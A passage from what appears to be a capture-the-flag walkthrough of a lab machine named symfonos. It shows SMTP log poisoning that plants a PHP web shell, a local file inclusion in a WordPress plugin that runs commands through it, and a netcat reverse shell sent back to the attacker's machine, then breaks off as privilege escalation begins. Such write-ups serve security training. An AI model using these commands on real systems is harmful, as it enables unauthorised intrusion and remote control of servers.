 ```bash
root@kali:~$ nc 192.168.179.135 25 
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
VRFY helios@symfonos.localdomain 
252 2.0.0 helios@symfonos.localdomain
MAIL FROM:s4rgaz@mail.com
250 2.1.0 Ok
RCPT TO:helios@symfonos.localdomain 
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
<?php passthru($_REQUEST['cmd']); ?>
.
250 2.0.0 Ok: queued as C062B40833
quit
221 2.0.0 Bye
```
Then we try to execute the uname command by sending it as a parameter and we get the result.

```bash
root@kali:~$ curl -s http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios\&cmd=uname%20-a
...

Linux symfonos 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64 GNU/Linux

{"success":true,"data":{"output":[]}}
```

**Getting a reverse shell**

Set up a netcat listener on port 443 and run the netcat reverse shell, and finally we have a low privileges shell.

```bash
root@kali:~$ curl -s http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios\&cmd=nc%20192.168.179.1%20443%20-e%20/bin/bash
```

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.135] 47738
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
<ite-editor/editor/extensions/pagebuilder/includes$ id
id
uid=1000(helios) gid=1000(helios) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

## Privilege Escalation
### Path Hijacking
Enumerting for SUID permissions I found the **statuscheck** binary, witch catches my attention.
